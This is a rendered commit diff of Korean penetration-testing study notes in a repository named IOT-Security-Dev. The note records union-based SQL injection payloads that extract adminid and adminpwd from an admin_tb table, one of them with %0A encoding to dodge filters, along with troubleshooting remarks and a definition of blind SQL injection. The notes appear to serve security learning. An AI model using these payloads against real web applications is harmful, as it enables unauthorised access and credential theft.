

Before and after one commit to moonimax/IOT-Security-Dev, a Markdown page: 모의 해킹/모의 해킹.md, the part around the change. Shown at 91% size. Drawn GitHub-style; pictures changed too: Images/Pasted image 20261022113428.png (added), Images/Pasted image 20261022113519.png (added); blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

Commit message:
vault backup: 2026-10-22 12:28:40

```diff
--- a/모의 해킹/모의 해킹.md
+++ b/모의 해킹/모의 해킹.md
@@ -42,11 +42,17 @@ information_schema.columns: column의 정보가 담겨 있는 테이블
 
 ' union %0A, select 1,2,3,4,5,6,adminid, adminpwd from admin_tb --
 
-
+![](../Images/Pasted%20image%2020261022113428.png)
 ' union select %1,%2%,%3,%4,%5,%6,adminid, adminpwd from admin_tb --
 
+위 구문으로 트라이 시도하였지만 어디선가 구문 오류가 있는듯해 보인다. 공백 처리가 제대로 이루어지지 않는 것으로 추측됨
+
+![](../Images/Pasted%20image%2020261022113519.png)위와 같은 방식으로 size를 늘려주고
 
 
 findNewaddr2.asp
 
 findNewadd3.asp
+
+blind SQL Injection
+- 무조건 참인 쿼리와 무조건 거짓인 쿼리를 이용해서 웹 서비스의 반응을 기반으로 데이터를 출하는 공격
```
Also changed, not shown: 1 other file.
